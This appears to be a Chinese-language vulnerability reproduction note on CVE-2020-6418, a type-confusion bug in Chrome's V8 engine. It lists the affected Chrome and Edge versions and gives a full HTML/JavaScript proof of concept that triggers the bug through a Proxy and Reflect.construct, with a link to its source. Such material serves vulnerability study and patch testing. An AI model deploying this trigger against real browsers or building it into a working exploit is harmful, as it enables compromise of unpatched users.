 # CVE-2020-6418 Google Chrome 远程代码执行漏洞

### 一、漏洞简介

在Google Chrome浏览器80.0.3987.122以下与Microsoft Edge浏览器80.0.361.62以下的版本中，开源JavaScript和WebAssembly引擎V8中存在一个类型混淆漏洞（CVE-2020-6418），可能导致攻击者非法访问数据，从而执行恶意代码。

### 二、漏洞影响

Google Chrome浏览器80.0.3987.122以下与Microsoft Edge浏览器80.0.361.62以下的版本中

### 三、复现过程

**poc**


```html
<!DOCTYPE html>
<head>
    <script>
        ITERATIONS = 10000
        TRIGGER = false

        function f(a,p){
            return a.pop(Reflect.construct(function(){}, arguments, p))
        }

        let a;
        let p = new Proxy(Object, {
            get: function(){
                if (TRIGGER){
                    a[2] = 1.1;
                }
                return Object.prototype;
            }
        });
        for(let i = 0; i < ITERATIONS; i++){
            let isLastIteration = i==ITERATIONS-1;
            a = [0,1,2,3,4];
            if(isLastIteration)
                TRIGGER = true;
            console.log(f(a,p));
        }
        console.log(a)
    </script>
</head>
<body>
    CVE-2020-6418 PoC!
</body>
```

**参考链接**

https://github.com/ChoKyuWon/CVE-2020-6418/blob/master/poc.html